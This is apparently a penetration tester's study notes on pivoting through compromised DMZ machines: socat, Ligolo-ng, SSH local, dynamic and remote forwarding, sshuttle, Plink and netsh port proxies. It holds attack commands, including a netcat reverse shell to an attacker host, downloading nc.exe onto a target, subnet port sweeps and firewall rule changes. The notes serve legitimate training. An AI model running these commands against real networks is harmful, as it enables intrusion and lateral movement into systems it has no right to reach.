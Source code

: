 ```yaml
---
layout: blank
pagetitle: Port Redirection and SSH Tunneling
---
```


## Port Forwarding

**Upgrading terminal**
- Might need to run `python3 -c 'import pty; pty.spawn("/bin/sh")'` to upgrade terminal

**Port Redirection and Tunneling examples**
- Port redirection (a type of forwarding): take traffic from one socket and passing it to another
- Tunneling: Encapsulating one type of data inside another (like HTTP inside SSH)
- **How do you know when to port forward?**
	- Once inside a box, use `ip addr`, `ipconfig`, and `ip route` to find connected subnets
	- Then, use scripts like `for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done` to find open ports (a basic nmap for linux)
		- Use ``1..254|%{$ip="172.16.50.$_";$p=445;$t=New-Object Net.Sockets.TcpClient;$r=$t.BeginConnect($ip,$p,$null,$null);if($r.AsyncWaitHandle.WaitOne(1000)){try{$t.EndConnect($r);Write-Host "$ip`:$p open"}catch{}}else{Write-Host "$ip`:$p closed"};$t.Close()}`` for powershell

**Port forwarding with Linux**
- Useful in situations where we need to access an internal server through a DMZ machine we own
- One way of doing this is starting a verbose (-ddd) Socat process listening on some port and forwarding traffic to the internal IP
	- `socat -ddd TCP-LISTEN:{External_Port},fork TCP:{Internal_IP}:{Internal Port}`
- Can also use *rinetd*, netcat + FIFO named pipe, or *iptables* if we have root

## Ligolo-ng
- https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2
- Download a proxy file for kali and an agent file for the DMZ machine
- Setup on kali (create tun interface):
	- `sudo ip tuntap add user kali mode tun ligolo`
	- `sudo ip link set ligolo up`
	- `./kali-proxy -selfcert`
		- This will return a port
- (Windows) agent:
	- `ligolo-agent.exe -connect {kali_IP}:{kali_port} -ignore-cert`
	- This program won't exit
- Join a session: `session`, then specify session number
- Adding a pivot (After grabbing network information from client and session running):
	- On kali: `sudo ip route add {ipconfig_IP}/{mask} dev ligolo`
		- Make sure the final IP portion, in front of the mask, is 0 (otherwise `ip` will get mad)
	- Within DMZ session on ligolo: `start`
- Now, we should literally have access to internal machines as though Kali was in the network
- Reverse shell from internal machine -> DMZ -> kali:
	-  `listener_add --addr 0.0.0.0:1338 --to 127.0.0.1:{kali_listening_port}`
		- This created a listener on the DMZ machine on port 1338 to forward all traffic to kali on port 4444
	- Then, we send reverse shells to port 1338 on the DMZ machine, rather than our kali IP
- File upload to internal machine:
	- `python -m http.server` on kali
	- `listener_add --addr 0.0.0.0:1339 --to 127.0.0.1:8000`
		- Forwarding all traffic that reaches DMZ on 1339 to kali on 8000
	- Now, we `iwr/wget {DMZ_IP}:1339/{file}`
	
## SSH Tunneling
- Can also be referred to as "SSH Port Forwarding"
- SSH was designed to securely transmit traffic, so it was used initially for a lot of tunneling

**SSH Local Port Forwarding**
- Done with SSH's `-L` option
	- Used to forward incoming traffic on the current machine from the machine we SSH INTO to another machine
	- `ssh -N -L 0.0.0.0:{current_machine_inbound_port}:{2nd_hop_forwarding_IP}:{forwarding_port} {username}@{intermediary_machine_IP}`
		- `0.0.0.0` just means listening on all interfaces
		- `-N` just means don't show output, so we only see forwarding-related stuff
	- Basically, we are in the network-facing machine. We want to forward traffic from one-hop to two-hops away to an arbitrary port, so we ssh from the pwned box into the one-hop box with the port-forwarding info. The info states that our port (in the example, 4455) will accept incoming connections (e.g. outside the network), send those along ssh, and then ssh on the one-hop machine will forward the traffic to the two-hop machine's port specific in the ssh-command. jeez

**SSH Dynamic Port Forwarding**
- Useful when we want to do more than a 1:1 port forward
	- This basically allows us to shift our commands one machine down
- OpenSSH uses a SOCKS proxy server port to listen, enabling this technique
- Uses the `-D` option
- Usage: `ssh -N -D 0.0.0.0:{inbound_port} {username}@{IP}`
	- This opens 9999 on the internet-facing machine that we control and tells it to accept and forward SOCKS traffic, as shown below
- Then, use *ProxyChains* to communicate over SOCKS
	- Edit `/etc/proxychains4.conf`, putting "socks5 {IP} {port} at the end"
		- This IP and port are the entrance to the internal network that we control
	- `proxychains {command} -L //{IP}/ -U {username} --password={password}`
		- `{command}` could be anything, like `smbclient` or `nmap`
		- The SOCKS traffic would be forwarded to the IP from the machine ssh'd into

**SSH Remote Port Forwarding**
- It's basically using an SSH tunnel's egress traffic to send commands through the client
- Useful when firewalls are getting in the way (e.g. can't ssh in/open new ports)
	- Thus, we set up an SSH server on OUR machine and bind the listening port to the loopback interface
		- Will need to run `sudo systemctl start ssh`
		- This does mean that we're giving the compromised machine our LITERAL credentials, so it might be good to create a new user lmfao
	- This means that packets sent are pushed through the SSH tunnel back to the compromised DMZ machine
- Uses the `-R` option, run from compromised DMZ machine
- Example: listening on 2345 on Kali and forwarding traffic to the 1-hop internal machine
	- `ssh -N -R localhost:{2345}:{internal_1hop_IP}:{internal_1hop_port} username@{kali_IP}`
- Traffic can then be sent to the machine by sending traffic to that port on localhost
	- Example: `psql -h localhost -p {2345} -U {username}`

**SSH Remote Dynamic Port Forwarding**
- Remote, and forwards traffic based on where they're addressed
- Example running on 9998:
	- `ssh -N -R 9998 kali@{kali_IP}`
	- Then, in `/etc/proxychains4.conf`:
		- `socks5 127.0.0.1 9998`
	- `proxychains {command with internal 1-hop IP as target}`
		- `proxychains nmap {internal_IP}`

**Using sshuttle**
- Basically turns SSH into a VPN
- First, port forward in traffic on the pwned machine on a certain port
	- For example, use Socat to allow inbound traffic on 2222, forward it to new machine (whose credentials we know) on port 22, since we're ssh'ing into that machine
- Then, `sshuttle -r {user}@{pwned_target_IP}:{pwned_target_port} {subnet1} {subnet2}`
	- The subnets are ones that we require access to from the pwned machine
- Then, we can just make requests to hosts in the subnet
	- For example, `nmap {private_IP}`

## Port Forwarding with Windows Tools

**Using SSH on Windows**
- Pretty much the same, as it's OpenSSH - comes bundled with Windows after 2018
- Remote Dynamic port forward:
	- Same as linux `ssh -N -R {kali_port} kali@{kali_IP}`
	- Modify kali `/etc/proxychains4.conf` to have `socks5 127.0.0.1 {kali_ssh_port}`
	- Then, same as before, use `proxychains` with commands and internal IPs passed

**Plink**
- OpenSSH might not be on Windows, so Plink might be used instead
- This is used for bypassing a firewall INTO the DMZ machine (going from shell to RDP even with RDP port blocked)
- Need netcat on the target, located in /windows-resources/binaries/nc.exe
	- Grab it with `powershell wget -uri {uri}/nc.exe -OutFile {desired_outfile.exe}`
	- Run a shell with `nc.exe -e cmd.exe {kali_IP} {port}`
- Download plink.exe using same command as above ^^
- `plink.exe -ssh -l kali -pw {pass} -R 127.0.0.1:{kali_port}:127.0.0.1:{port_we_want_to_open_on_DMZ} {kali_ip}`
	- This is basically just ssh'ing into kali to open up a port on the DMZ machine
- Then, for example, `xfreerdp /u:{username} /p:{password} /v:127.0.0.1:{kali_port}`, as the box has SSH'd into kali and is running on kali port, so we can rdp into that

**Netsh**
- Built-in to the firewall, thus should require Administrator
- Assume RDP is open, and we want to go to 1hop internal machine via SSH
- 1st, rdp using `xfreerdp`
- Then, `netsh interface portproxy add v4tov4 listenport={open_port} listenaddress={current_machine_IP_from_kali} connectport={port_of_1hop_machine} connectaddress={1hop_internal_IP}`
	- Need to open {open_port} on the firewall - `netsh advfirewall firewall`
		- `netsh advfirewall firewall add rule name="{any_name}" protocol=TCP dir=in localip={kali_ip} localport={open_port} action=allow`
		- To delete the rule, `netsh advfirewall firewall delete rule "{rule_name}"`
- To delete the port forward, run `netsh interface portproxy del v4tov listenport={open_port} listenaddress={kali_IP}`
- Can verify what is running with `netstat -anp TCP` or `netsh interface portproxy show all`